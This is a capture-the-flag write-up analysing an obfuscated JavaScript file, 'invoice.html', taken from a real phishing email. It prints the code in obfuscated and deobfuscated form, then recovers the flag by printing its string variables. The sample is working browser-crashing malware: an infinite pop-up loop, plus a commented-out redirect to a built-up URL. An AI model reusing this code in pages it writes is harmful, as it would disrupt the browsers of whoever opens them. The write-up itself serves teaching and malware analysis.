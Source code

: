 # danger-Live-and-Malicious-Code

## Description

Like the title says, this challenge is dangerous and contains live malware.

Shoutout to the hacker that I stole this from challenge from. Sadly I can't give them credit because they sent the phish from a compromised email, but it's literally his/her code. I just defanged it (a little bit - it will still crash your webbrowser (usually, but don't test that outside of a VM)) and stuck a WPI flag in here.

To prevent accidental execution the file has been zipped with the password "I_understand_that_this_challenge_contains_LIVE_MALWARE"

http://us-east-1.linodeobjects.com/wpictf-challenge-files/invoice.zip

made by: The_Abjuri5t (John F.)

## Download and inspect the code

```
kali@kali:~/Downloads/wipctf$ wget http://us-east-1.linodeobjects.com/wpictf-challenge-files/invoice.zip
--2020-04-18 16:02:14--  http://us-east-1.linodeobjects.com/wpictf-challenge-files/invoice.zip
Resolving us-east-1.linodeobjects.com (us-east-1.linodeobjects.com)... 173.255.231.96, 45.79.157.59, 96.126.106.143, ...
Connecting to us-east-1.linodeobjects.com (us-east-1.linodeobjects.com)|173.255.231.96|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 729 [application/zip]
Saving to: ‘invoice.zip’

invoice.zip              100%[==================================>]     729  --.-KB/s    in 0s      

2020-04-18 16:02:14 (107 MB/s) - ‘invoice.zip’ saved [729/729]

kali@kali:~/Downloads/wipctf$ unzip invoice.zip 
Archive:  invoice.zip
[invoice.zip] invoice.html password: 
  inflating: invoice.html

kali@kali:~/Downloads/wipctf$ ls -l
total 8
-rw-r--r-- 1 kali kali 1243 Feb 22 22:29 invoice.html
-rw-r--r-- 1 kali kali  729 Apr 14 21:29 invoice.zip

kali@kali:~/Downloads/wipctf$ cat invoice.html 
<html>
<head>
<title></title>
</head>
<body>
<script>var a = ['ps:','cte','5df','se_','toS','ing','tri','sub','lac','ryt','d}.','cod','pro','_no','ran','ing','dom','str','ete','rep'];function abc(def) { popupWindow = window.open( def,'popUpWindow','height=666,width=666,left=666,top=666') }(function(c, d) {var e = function(f) {while (--f) {c['push'](c['shift']());}};e(++d);}(a, 0xa8));var b = function(c, d) {c = c - 0x0;var e = a[c];return e;};var c = 'htt' + b('0xc') + '//t' + b('0x1') + b('0xe') + 'xc-' + 'rWP' + 'I';var d = '{Oh' + b('0x5') + b('0xf') + b('0x4') + b('0x3') + b('0x7') + '_d';var e = b('0xa') + b('0xd') + b('0x2') + 'net' + '/';var f = Math[b('0x6') + b('0x8')]()[b('0x10') + b('0x12') + 'ng'](0x6)[b('0x13') + b('0x9') + b('0x11')](0x2, 0xf) + Math['ran' + 'dom']()[b('0x10') + b('0x12') + 'ng'](0x10)[b('0x13') + b('0x9') + b('0x11')](0x2, 0xf);var g = Math['ran' + 'dom']()[b('0x10') + b('0x12') + 'ng'](0x24)[b('0x13') + b('0x9') + b('0x11')](0x2, 0xf) + Math[b('0x6') + b('0x8')]()['toS' + b('0x12') + 'ng'](0x24)[b('0x13') + b('0x9') + b('0x11')](0x2, 0xf);/*location[b('0xb') + b('0x0') + 'e'](c + d + e + '?' + f + '=' + g);*/for(var i=1;i===i;i++){abc(self.location,'_blank');}</script></body>
</html>
```

## Analysis

Use `uglifyjs -b` to demangle that javascript.

```javascript
var a = [ "ps:", "cte", "5df", "se_", "toS", "ing", "tri", "sub", "lac", "ryt", "d}.", "cod", "pro", "_no", "ran", "ing", "dom", "str", "ete", "rep" ];

function abc(def) {
    popupWindow = window.open(def, "popUpWindow", "height=666,width=666,left=666,top=666");
}

(function(c, d) {
    var e = function(f) {
        while (--f) {
            c["push"](c["shift"]());
        }
    };
    e(++d);
})(a, 168);

var b = function(c, d) {
    c = c - 0;
    var e = a[c];
    return e;
};

var c = "htt" + b("0xc") + "//t" + b("0x1") + b("0xe") + "xc-" + "rWP" + "I";

var d = "{Oh" + b("0x5") + b("0xf") + b("0x4") + b("0x3") + b("0x7") + "_d";

var e = b("0xa") + b("0xd") + b("0x2") + "net" + "/";

var f = Math[b("0x6") + b("0x8")]()[b("0x10") + b("0x12") + "ng"](6)[b("0x13") + b("0x9") + b("0x11")](2, 15) + Math["ran" + "dom"]()[b("0x10") + b("0x12") + "ng"](16)[b("0x13") + b("0x9") + b("0x11")](2, 15);

var g = Math["ran" + "dom"]()[b("0x10") + b("0x12") + "ng"](36)[b("0x13") + b("0x9") + b("0x11")](2, 15) + Math[b("0x6") + b("0x8")]()["toS" + b("0x12") + "ng"](36)[b("0x13") + b("0x9") + b("0x11")](2, 15);

for (var i = 1; i === i; i++) {
    abc(self.location, "_blank");
}
```

The for loop at the bottom is an infinite loop to create pop-up windows. We definitely don't want to run that. The other variables look interesting though. The flag is being built from the array of strings on the first line.

## Solution

Let's print those variables out and see what happens.

```html
<html>
<head>
<title></title>
</head>
<body>
<script>
var a = [ "ps:", "cte", "5df", "se_", "toS", "ing", "tri", "sub", "lac", "ryt", "d}.", "cod", "pro", "_no", "ran", "ing", "dom", "str", "ete", "rep" ];

(function(c, d) {
    var e = function(f) {
        while (--f) {
            c["push"](c["shift"]());
        }   
    };  
    e(++d);
})(a, 168);

var b = function(c, d) {
    c = c - 0;
    var e = a[c];
    return e;
};  

var c = "htt" + b("0xc") + "//t" + b("0x1") + b("0xe") + "xc-" + "rWP" + "I";

var d = "{Oh" + b("0x5") + b("0xf") + b("0x4") + b("0x3") + b("0x7") + "_d";

var e = b("0xa") + b("0xd") + b("0x2") + "net" + "/";

var f = Math[b("0x6") + b("0x8")]()[b("0x10") + b("0x12") + "ng"](6)[b("0x13") + b("0x9") + b("0x11")](2, 15) + Math["ran" + "dom"]()[b("0x10") + b("0x12") + "ng"](16)[b("0x13") + b("0x9") + b("0x11")](2, 15);

var g = Math["ran" + "dom"]()[b("0x10") + b("0x12") + "ng"](36)[b("0x13") + b("0x9") + b("0x11")](2, 15) + Math[b("0x6") + b("0x8")]()["toS" + b("0x12") + "ng"](36)[b("0x13") + b("0x9") + b("0x11")](2, 15);

document.write("a: " + a + "<br>\n");
document.write("b: " + b + "<br>\n");
document.write("c: " + c + "<br>\n");
document.write("d: " + d + "<br>\n");
document.write("e: " + e + "<br>\n");
document.write("f: " + f + "<br>\n");
document.write("g: " + g + "<br>\n");
</script>
</body>
</html>
```

Open `invoice_mod.html` in firefox and get:

```
a: lac,ryt,d}.,cod,pro,_no,ran,ing,dom,str,ete,rep,ps:,cte,5df,se_,toS,ing,tri,sub
b: function(c, d) { c = c - 0; var e = a[c]; return e; }
c: https://tryt5dfxc-rWPI
d: {Oh_nose_procoding_d
e: etected}.net/
f: 444423500012190de9ae4937da
g: deygcrb1hmfhgg1r9kty5a
```

The flag is:

```
WPI{Oh_nose_procoding_detected}
```

